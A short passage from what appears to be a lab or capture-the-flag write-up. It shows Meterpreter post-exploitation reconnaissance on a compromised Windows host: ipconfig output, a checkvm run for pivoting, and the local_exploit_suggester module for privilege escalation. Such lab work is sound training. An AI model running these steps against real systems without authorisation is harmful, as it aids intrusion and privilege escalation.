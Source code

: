 ```
Stdapi: Networking Commands
===========================
...
    ifconfig      Display interfaces
    ipconfig      Display interfaces
...
```

```
meterpreter > ipconfig

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 12
============
Name         : Microsoft ISATAP Adapter
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::5efe:a0a:f556
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 13
============
Name         : AWS PV Network Device #0
Hardware MAC : 02:0a:ac:01:fb:b9
MTU          : 9001
IPv4 Address : 10.10.245.86
IPv4 Netmask : 255.255.0.0
IPv6 Address : fe80::cce5:4cc:90cf:7266
IPv6 Netmask : ffff:ffff:ffff:ffff::
```

- Run `post/windows/gather/checkvm`. This will determine if we're in a VM, which can be useful for pivoting

```
meterpreter > run post/windows/gather/checkvm

[*] Checking if the target is a Virtual Machine ...
[+] This is a Xen Virtual Machine
```

- Run `post/multi/recon/local_exploit_suggester`. This will check for various exploits which we can run within our session to elevate our privileges.
  - The Ice room deals with how some of these work
  - There might be more, but it keeps failing for me after finding this first one
